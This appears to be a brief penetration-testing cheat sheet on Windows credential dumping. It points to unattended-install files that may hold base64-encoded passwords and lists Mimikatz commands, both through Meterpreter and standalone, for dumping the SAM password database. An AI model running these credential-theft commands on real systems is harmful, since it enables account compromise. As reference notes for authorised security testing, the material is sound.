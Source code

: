 ## Alternate Data Streams

TO DO

## Windows Credentials Dumping

### Unattended Installation

The Unattended Windows Setup utility will typically utilize one of the following
configuration files that contain user account and system configuration
information:

```bash
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Autounattend.xml
```

*Note : The password may be encoded in base64 !*

### Mimikatz (Metasploit)

*Warning: Need high privileges !*

With a meterpreter session :

1) Load Mimikatz :
```bash
meterpreter > load kiwi
```

2) Dump SAM database :
```bash
meterpreter > lsa_dump_sam
```

2) Other :
```bash
meterpreter > help kiwi
```

### Mimikatz

Execute **Mimikatz** :
```cmd
.\mimikatz.exe
```

Check if you have the high privileges :
```cmd
mimikatz # privilege::debug
Privilege '20' OK
```

Dump SAM database :
```cmd
mimikatz # lsadump::sam
```
